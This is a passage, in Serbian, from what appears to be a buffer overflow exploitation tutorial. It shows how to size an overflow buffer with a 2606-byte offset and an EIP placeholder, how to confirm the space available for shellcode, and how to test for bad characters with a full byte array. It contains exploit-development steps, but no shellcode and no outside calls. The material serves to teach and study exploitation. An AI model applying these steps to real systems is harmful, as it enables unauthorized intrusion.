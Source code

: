 Hajde da promenimo bafer:

```
buffer = 'A'*2606 + 'BBBB' + 'C'*600
```

Pokrenite novi exploit i proverite EBP i dužinu korisnog shell koda.

![](<../.gitbook/assets/image (31) (1).png>)

![](<../.gitbook/assets/image (32) (1).png>)

Možete videti da kada se dostigne ranjivost, EBP pokazuje na shell kod i da imamo puno prostora da lociramo shell kod ovde.

U ovom slučaju imamo **od 0x0209A128 do 0x0209A2D6 = 430B.** Dovoljno.

## Provera loših karaktera

Ponovo promenite bafer:

```
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
buffer = 'A'*2606 + 'BBBB' + badchars
```
